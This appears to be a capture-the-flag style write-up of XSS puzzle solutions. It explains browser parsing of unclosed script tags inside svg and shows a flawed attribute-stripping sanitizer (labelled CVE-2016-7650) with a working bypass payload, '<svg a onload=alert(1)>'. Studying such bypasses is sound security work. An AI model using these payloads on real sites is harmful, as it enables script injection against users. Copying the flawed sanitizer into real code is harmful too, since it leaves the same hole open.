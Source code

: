 ```html
<script>alert(1)</body></html></script>
</body>
</html>
```
but
```html
<html>
<body>
<svg>
<script>alert(1)
</body>
</html>
```
will be analysed **by browser** as:
```html
<html>
<body>
<svg>
<script>alert(1)</script>
</svg>
</body>
</html>
```
This behaviour is related to how the browser analyze DOM, tokenizing and tree constructing. So in this case, we can cut off the end tag `<svg>` `<script>`, and there is no need to use `//` to quote any HTML tags which may by automatically added by browser.
## Fruit 2
### code
```javascript
// CVE-2016-7650
function escape(s) {
var div = document.implementation.createHTMLDocument().createElement('div');
div.innerHTML = s;
function f(n) {
if (/script/i.test(n.tagName)) n.parentNode.removeChild(n);
for (var i=0; i<n.attributes.length; i++) {
var name = n.attributes[i].name;
if (name !== 'class') { n.removeAttribute(name); }
}
}
[].map.call(div.querySelectorAll('*'), f);
return div.innerHTML;
}
```
### solution
```javascript
<svg a onload=alert(1)>
```
### background info
Function f sort attributes by number i. After removing `attributes[i]`, the attribute list changes, `attributes[i+1]` will become `attributes[i]`. So function f will ignore the attribute after every attribute it removes.
## Fruit 3
### help
i don't know how to do it, please help me...@oicu11154755 oicu0619@163.com
